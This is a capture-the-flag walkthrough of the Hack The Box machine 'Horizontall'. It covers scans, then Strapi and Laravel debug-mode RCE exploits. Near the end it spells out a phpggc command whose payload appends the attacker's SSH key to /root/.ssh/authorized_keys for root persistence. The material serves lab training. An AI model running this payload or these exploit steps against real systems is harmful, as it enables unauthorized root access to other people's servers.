





# Horizontall
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.11.105 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-15 17:34 BST
Nmap scan report for 10.10.11.105 (10.10.11.105)
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.09 seconds
```
- Web Server



- `gobuster`
```
└─$ gobuster dir -u http://horizontall.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt      
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://horizontall.htb/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt
[+] Timeout:                 10s
===============================================================
2023/08/15 17:54:27 Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 194] [--> http://horizontall.htb/img/]
/css                  (Status: 301) [Size: 194] [--> http://horizontall.htb/css/]
/js                   (Status: 301) [Size: 194] [--> http://horizontall.htb/js/]

```
- `ffuf`
```
└─$ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u 'http://10.10.11.105/' -H 'Host: FUZZ.horizontall.htb' -fw 7 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.105/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.horizontall.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response words: 7
________________________________________________

[Status: 200, Size: 901, Words: 43, Lines: 2, Duration: 109ms]
    * FUZZ: www

```

- We find another `vhost` in `js` file


## Foothold/User
- `http://api-prod.horizontall.htb/reviews`



- Let's `gobuster` again
```
└─$ gobuster dir -u http://api-prod.horizontall.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50    
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://api-prod.horizontall.htb/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/08/15 17:59:30 Starting gobuster in directory enumeration mode
===============================================================
/reviews              (Status: 200) [Size: 507]
/users                (Status: 403) [Size: 60]
/admin                (Status: 200) [Size: 854]
```
- `http://api-prod.horizontall.htb/admin`
  - We have [strapi](https://strapi.io/)


- Let's check exploits
  - Googling shows [exploit](https://www.exploit-db.com/exploits/50237) to reset `admin` password
    - `http://api-prod.horizontall.htb/admin/strapiVersion`
    - We have `strapiVersion	"3.0.0-beta.17.4"`
  - Another [exploit](https://www.exploit-db.com/exploits/50238) with `RCE`
  - Let's try them


- Now let's try `RCE`
  - There's a nice [blog](https://bittherapy.net/post/strapi-framework-remote-code-execution/) with `POC` 
  - We can open the same request in `Burp`
  - Add `Content-Type` and `Authorization` headers
  - Copy the payload from the post and send it





## Root
- Let's enumerate
  - We have port `8000`

```
strapi@horizontall:~$ netstat -tulpn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1802/node /usr/bin/ 
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -   
```

- We can either upload `chisel` or use `ssh` port forwarding, 
  - If we use `ssh` version, we don't have `.ssh` folder and `authorized_keys` for `strapi`
  - Let's try and create them
  - Let's add public key to `authorized_keys` so we can `ssh`




- We have `Laravel`


- Let's `gobuster`
```
└─$ gobuster dir -u http://localhost:8000/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php,txt --no-error
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://localhost:8000/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2023/08/15 18:52:07 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 17473]
/server.php           (Status: 200) [Size: 17473]
/profiles             (Status: 500) [Size: 616200]
```

- `/profiles`
  - Looks like debug mode is on Laravel


- If we google for `laravel debug mode exploit`
  - We have a [post](https://www.ambionics.io/blog/laravel-debug-rce)
  - And [poc](https://github.com/ambionics/laravel-exploits/blob/main/laravel-ignition-rce.py)
  - Let's try
  - Generate payload
    - `php -d'phar.readonly=0' ~/Documents/Tools/phpggc/phpggc --phar phar -o ssh.phar --fast-destruct monolog/rce1 system 'mkdir -p /root/.ssh; echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDo+qtyTekC0IbR253hJRsWT9Q+wCFVUEwHS7/VZJEOvePL+oIm2LZp9G1ml3FToU6Qr2MtB83tJU7mMFqcKm3mfVTj+lpJzP+XO4A/xHzLiqhZScv56FM0JaZqz65/Oca4FF4AiNS0gOwJ7vu5sARMYFbb5jsd266eCFvymRLobt3Ujzo5lqcRiLOgZPVCasfHU0vPCNGTaMvDKyklhwSCsMbKjOxuozbwZwJ1ApsCkkx7bx277DGgOI6G/rLYFkc/W/+Y9hxqp4RifUzgu6GACKDIKyAnszWxZHNMT/Iokkcn35Xd5p/ykVgrjLBDQKCxTr4Org/M7L9xhvd19GbH kali@kali" >> /root/.ssh/authorized_keys'`
  - And run exploit


